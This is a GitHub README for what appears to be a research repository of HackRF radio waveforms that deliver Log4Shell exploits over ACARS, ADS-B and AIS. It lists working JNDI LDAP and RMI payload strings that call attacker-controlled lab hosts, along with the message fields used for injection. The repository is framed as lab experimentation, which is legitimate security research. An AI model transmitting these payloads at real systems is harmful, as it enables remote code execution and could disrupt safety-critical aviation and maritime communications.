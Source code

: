 # Log4shell waveforms for ACARS, ADS-B, and AIS

This repository contains **HackRF One** compatible IQ-waveforms for experimentation of log4shell exploitation using the ACARS, ADS-B, and AIS telecommunication protocols.

The waveforms deliver CVE-2021-44228 and related payloads wrapped into static IQ files, capable of exploitation of vulnerable **Apache Log4j2** versions.

The ACARS waveforms have a bandwitdh of 1 152 000 Hz, while the ADS-B and AIS waveforms have a bandwidth of 2 000 000 Hz.

## Payloads

* `${jndi:ldap://10.0.2.15:1389/ysbmnw}`
* `${jndi:rmi://10.0.2.15/a}`
* `${jndi:rmi://10.0.2.6/a}${jndi:rmi://10.0.2.7/b}`
* `${:-$${:-}}`

As the IPs suggest, the payloads are designed to be suitable for experimentation using VirtualBox enviroments. However, the payloads are equally destructive using real-life hardware and software, granted that the network address space is a match.

### Exploited telecommunication messaging fields

* **ACARS**: TEXT
* **ADS-B**: DF24 ELM
* **AIS**: Message 6 and Message 25

# It's on you

Disruption of aeronautical, maritime, or aerospace communications will put you to jail. Be smart and do not test your luck.

The contents of this repository are meant for experimental use only in controlled lab enviroments. Users of this repository are liable for any consequences.

## Copyrights

Copyright 2022 Artturi Juvonen (ACARS using [acarsgen](https://github.com/aajuvonen/acarsgen)), Andrei Costin & Hannu Turtiainen (ADS-B), and Syed Khandker (AIS)

## Licenses

MIT license. Read more in LICENSE.md.
